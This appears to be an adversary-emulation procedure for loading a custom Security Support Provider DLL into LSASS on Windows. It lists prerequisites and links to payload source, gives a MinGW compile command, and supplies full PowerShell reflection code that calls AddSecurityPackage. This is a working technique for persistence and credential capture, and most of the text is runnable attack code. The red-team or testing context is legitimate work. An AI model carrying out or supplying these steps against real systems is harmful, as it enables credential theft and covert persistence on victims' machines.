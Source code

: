 - Local administrator 
- A compiled SSP DLL and a method of calling the AddSecurityPackage() API (e.g. custom exe payload)
    - SSP source: https://github.com/2XXE-SRA/payload_resources/blob/master/c/lsa_ssp.c
      - This can be compiled using MinGW via `x86_64-w64-mingw32-gcc -shared -municode -o ssp.dll lsa_ssp.c -lsecur32`
    - SSP loader: https://github.com/2XXE-SRA/payload_resources/blob/master/powershell/ssp_loader.ps1

### Guidance

Open an administrative PowerShell terminal. 

If using the script linked above, run the following command

```
PS> .\ssp_loader.ps1 {{ ssp_dll_path }}
```

If loading manually, first set the path to the compiled SSP DLL into a variable

```
PS> $DllName = "{{ ssp_dll_path }}"
```

where `ssp_dll_path` is the absolute path to the SSP DLL.

Then load the SSP into LSASS

```
PS>
$DynAssembly = New-Object System.Reflection.AssemblyName('SSPI2')
$AssemblyBuilder = [AppDomain]::CurrentDomain.DefineDynamicAssembly($DynAssembly, [Reflection.Emit.AssemblyBuilderAccess]::Run)
$ModuleBuilder = $AssemblyBuilder.DefineDynamicModule('SSPI2', $False)

$TypeBuilder = $ModuleBuilder.DefineType('SSPI2.Secur32', 'Public, Class')
$PInvokeMethod = $TypeBuilder.DefinePInvokeMethod('AddSecurityPackage',
    'secur32.dll',
    'Public, Static',
    [Reflection.CallingConventions]::Standard,
    [Int32],
    [Type[]] @([String], [IntPtr]),
    [Runtime.InteropServices.CallingConvention]::Winapi,
    [Runtime.InteropServices.CharSet]::Auto)

$Secur32 = $TypeBuilder.CreateType()

if ([IntPtr]::Size -eq 4) {
    $StructSize = 20
} else {
    $StructSize = 24
}

$StructPtr = [Runtime.InteropServices.Marshal]::AllocHGlobal($StructSize)
[Runtime.InteropServices.Marshal]::WriteInt32($StructPtr, $StructSize)

$Secur32::AddSecurityPackage($DllName, $StructPtr)
```
